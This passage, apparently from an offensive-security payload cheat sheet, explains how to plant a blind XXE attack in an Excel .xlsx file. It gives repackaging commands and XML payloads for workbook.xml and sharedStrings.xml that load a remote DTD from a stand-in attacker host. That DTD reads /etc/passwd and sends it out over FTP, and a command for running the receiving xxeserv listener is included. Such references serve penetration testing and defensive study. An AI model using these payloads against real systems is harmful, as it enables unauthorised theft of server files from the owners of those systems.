 Extract Excel file: `7z x -oXXE xxe.xlsx`

Rebuild Excel file:

```
$ cd XXE
$ zip -u ../xxe.xlsx *
```

Warning: Use `zip -u` (https://infozip.sourceforge.net/Zip.html) and not `7z u` / `7za u` (https://p7zip.sourceforge.net/) or `7zz` (https://www.7-zip.org/) because they won't recompress it the same way and many Excel parsing libraries will fail to recognize it as a valid Excel file. A valid  magic byte signature with (`file XXE.xlsx`) will be shown as `Microsoft Excel 2007+` (with `zip -u`) and an invalid one will be shown as `Microsoft OOXML`.

Add your blind XXE payload inside `xl/workbook.xml`.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE cdl [<!ELEMENT cdl ANY ><!ENTITY % asd SYSTEM "http://x.x.x.x:8000/xxe.dtd">%asd;%c;]>
<cdl>&rrr;</cdl>
<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships">
```

Alternatively, add your payload in `xl/sharedStrings.xml`:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE cdl [<!ELEMENT t ANY ><!ENTITY % asd SYSTEM "http://x.x.x.x:8000/xxe.dtd">%asd;%c;]>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="10" uniqueCount="10"><si><t>&rrr;</t></si><si><t>testA2</t></si><si><t>testA3</t></si><si><t>testA4</t></si><si><t>testA5</t></si><si><t>testB1</t></si><si><t>testB2</t></si><si><t>testB3</t></si><si><t>testB4</t></si><si><t>testB5</t></si></sst>
```

Using a remote DTD will save us the time to rebuild a document each time we want to retrieve a different file.
Instead we build the document once and then change the DTD.
And using FTP instead of HTTP allows to retrieve much larger files.

`xxe.dtd`

```xml
<!ENTITY % d SYSTEM "file:///etc/passwd">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://x.x.x.x:2121/%d;'>">
```

Serve DTD and receive FTP payload using [staaldraad/xxeserv](https://github.com/staaldraad/xxeserv):

```ps1
$ xxeserv -o files.log -p 2121 -w -wd public -wp 8000
```

### XXE Inside DTD file

Most XXE payloads detailed above require control over both the DTD or `DOCTYPE` block as well as the `xml` file.
In rare situations, you may only control the DTD file and won't be able to modify the `xml` file. For example, a MITM.
When all you control is the DTD file, and you do not control the `xml` file, XXE may still be possible with this payload.
